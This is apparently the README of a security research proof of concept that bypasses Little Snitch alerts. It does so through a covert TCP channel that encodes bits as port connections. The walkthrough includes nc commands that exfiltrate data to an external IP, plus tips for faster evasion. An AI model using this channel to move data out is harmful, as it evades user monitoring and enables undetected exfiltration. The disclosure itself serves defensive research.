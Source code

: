# little-stitch
Send and receive bypassing Little Snitch alerting.

## Demo

https://user-images.githubusercontent.com/4079939/146304055-ddcbd09f-0379-4c49-af65-cb2de9fa979e.mov

## Usage

### Install

```
tag=$(curl -s https://api.github.com/repos/RhinoSecurityLabs/little-stitch/releases/latest|jq -r '.tag_name'|tr -d 'v')
curl -L "https://github.com/RhinoSecurityLabs/little-stitch/releases/download/v${tag}/little-stitch_${tag}_$(uname -s)_$(uname -m).tar.gz" \
    | tar -xvf - -C /usr/local/bin/ little-stitch
```

### Build

Make sure a recent version of GoLang is installed and set up (tested with golang 1.17.2).

```
go build -o little-stitch main.go
```


### Server

Currently, this PoC does not differentiate between clients so you'll likely want a firewall setup allowing ports
11100-11300 only from the client IP address. Other clients connecting to these ports while the server running
will change the output.

```
echo 'hello from server' | ./little-stitch server
```

### Client

You'll want to start the server before the client, you may get unexpected results if you start the client first.

```
echo 'hello from client' | ./little-stitch client <server ip address>
```

## Underlying Issue

Little Snitch does not actually trigger an alert when a TCP connection is established but instead is triggered
when application data is sent across the connection. So if you set up a TCP connection and immediately close it,
before sending any data across it, an alert will not be triggered by Little Snitch.

You can test this without installing anything on your computer with the nc command.

Note: For unknown reasons Little Snitch alerting seems to be inconsistant when netcat is used like this. If you
are getting alerts with the following commands you may have more success with the PoC, which is more
reliable.

```
% nc -G 2 -vz 1.1.1.1 80
Connection to 1.1.1.1 port 80 [tcp/http] succeeded!
% nc -G 2 -vz 1.1.1.1 81
nc: connectx to 1.1.1.1 port 81 (tcp) failed: Operation timed out
```

While we aren't sending any data across the connection, this behavior alone is enough to enable two-way
communications between a server and a client running behind Little Snitch without being detected.

## Implementation Details

For exfiling data to an attacker-controlled server, instead of sending data across the TCP connection as
application data we want to encode our data, into attributes of the connection which are settable by an
underprivileged user client-side, and will be readable on the same connection server-side.

There are several attributes of a TCP connection that fill these requirements, however the most
straightforward is the destination port number, and whether a connection is opened or not. If we
are trying to send a byte at a time to the server we can use a range of 8 destination ports each
representing a bit in the current byte. We can then have an initiated connection represent a one while
doing nothing represents a zero, so essentially whether a connection is opened or not in the current
cycle represents a single bit. Once we have made all the connections needed we can then send a connection
to a ninth port, indicating to the server the current cycle is complete.

We can run through this manually to get a better idea of what is happening here by just running the server-side
of the connection and using `nc` to open the connections which will set (poke) the bits on the server.

```
./little-stitch server
```

With the server running we can take a look at the bit's needed to represent an ASCII `A`.

```
$ echo -n 'A' | xxd -b
00000000: 01000001                                               A
```

From the output of `xxd` we can see, if we are counting from right to left (assuming you are using a little-endian
system) bits 1 and 7 are set. So to print an 'A' we'll want to poke ports 11101 and 11107, following up with a 11100
to flush the byte to stdout.

```
% nc -vz 34.125.141.146 11101
Connection to 34.125.141.146 port 11101 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11107
Connection to 34.125.141.146 port 11107 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11100
Connection to 34.125.141.146 port 11100 [tcp/*] succeeded!
```

If we look at the server we'll see the following.

```
$ ./little-stitch
A
```

Sending data the other direction isn't as simple since we can't send data directly from the server to the client, which will
most likely be on a network restricted with NAT. So instead of poking ports when we need to represent the value of a
given bit, we'll instead open the ports on the server corresponding to the set bits of the current byte. The client can
then iterate over these ports and record whether they were opened or closed to determine the value of the current byte.
In the demo we can see that this is slower than sending data to the server, this is because the client has more ports
overall to check (currently this is unoptimized, and closing the connection eats up a fair amount of time) and because
the server and the client need to be more careful about remaining in sync during this process.

## Transfer Speed

The transfer speed in this PoC is not terribly fast, based on observations it appears to be able to upload at about a 16 bit/s
and download at about 8 bit/s. It's worth pointing out that this PoC has not been optimized at all and is just running the
simplest thing that will work, it should be possible to increase this number by many fold. Some optimizations that might help
here is using the source port to encode data in addition to the destination port, parallelizing some off the transfer would
likely help quite a bit as well. Currently the majority of time is spent waiting on TCP connections to close, because everything
is run serialized this ends up slowing things down quite a bit. There's also likely other attributes of the connection that could
be used to store data, the urgent bit as an example (I suspect several others I'm not thinking of as well). So this is slow right
now, but I wouldn't rely on that.

## What's with the Little Stitch name?

Snitch sounds like stitch, and little-stitch reminds me of Stitch Face, which is Peach's ultimate turnip in Smash Bro's Melee. Anyways, since
you seem to be so interested in Peach's turnips now, the rest of this README is about them.

Peaches turnips come in many variations and typically do 2%-10% damage when thrown. The Stitch Face Turnip is unique however, it is one of the
two rarest turnips in the game with only a 1.711% chance of appearing with each pull. What puts it appart from the other turnips isn't it's
rarety however, it's the punch it packs at 34% damage, making it the most powerfull item that is legal in turnament play.

Turnip Tip: after you throw it and it hit's your opponant try recatching it by jumping and pressing Z when the turnip bounces back and passess
through peaches body onscreen.

### Turnip Stats

| Turnip Name | Damage      | Propability |
| ----------- | ----------- |-------------|
| Normal      | 6 %         | 59.873 %    |
| Eybrow Eyes | 6 %         | 10.264 %    |
| Line Eyes   | 6 %         | 8.553 %     |
| Circle Eyes | 6 %         | 5.132 %     |
| Carrot Eyes | 6 %         | 5.132 %     |
| Wink        | 10 %        | 6.843 %     |
| Dot Eyes    | 16 %        | 1.711 %     |
| Stitch Face | 34 %        | 1.711 %     |
